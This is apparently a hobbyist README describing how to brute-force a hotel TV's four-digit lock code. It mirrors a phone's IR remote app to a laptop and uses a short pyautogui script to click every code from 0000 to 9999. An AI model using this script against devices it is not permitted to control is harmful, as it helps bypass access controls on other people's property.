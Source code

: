 
# Brute forcing this Hotel's TV

Well, I'm staying in this hotel and I'm bored. Let's see if we can brute force the TV, just so we can have something to do.

![scrcpy](brute-force-tv.png)

## Tools

adb  
[scrcpy](https://github.com/Genymobile/scrcpy)  
[sure](https://play.google.com/store/apps/details?id=com.tekoia.sure.activities&hl=en_US)  
[pyautogui](https://pypi.org/project/PyAutoGUI/)  
Phone - with IR(Infra Red) capabilities.

## Method

What we are going to do is a very simple thing.

First we are going to install sure (or any other remote control) app on our phones. It's an app that uses the IR functionality on your phone to emulate a remote control

Second we are going to access our phone on our laptop using scrcpy and adb (check their tutorial).

Third we are going to run the code bellow, kick back and watch it run.

## Code

```python
import time
import pyautogui


dict = {
	'0': (x,y),
	'1': (x,y),
	'2': (x,y),
	'3': (x,y),
	'4': (x,y),
	'5': (x,y),
	'6': (x,y),
	'7': (x,y),
	'8': (x,y),
	'9': (x,y),
}

for i in range(10000): #0 - 9999
	for j in "{:04d}".format(i): #format the number so 0 becomes 0000 - 9999
		pyautogui.click( dict[j] )
		time.sleep(0.1) #click the number and wait a while
	time.sleep(0.3) #cool down time
```

The code is very simple. Given that we are seeing our phone screen on our laptop, all we need to do is map a number on the remote control to a location on the screen, then just run a pyautogui script to automaticy click on the proper numbers as the attack goes on. First it's going to click 0000, then 0001, 0002... so on and so forth. Very basic stuff. The (x,y) on the code above means that you should fill in with the x and y coordinates of the buttons on your screen. You can do something more robust, passing the image of the button and having pyautogui searching it for you, but we are doing things quite simple today.
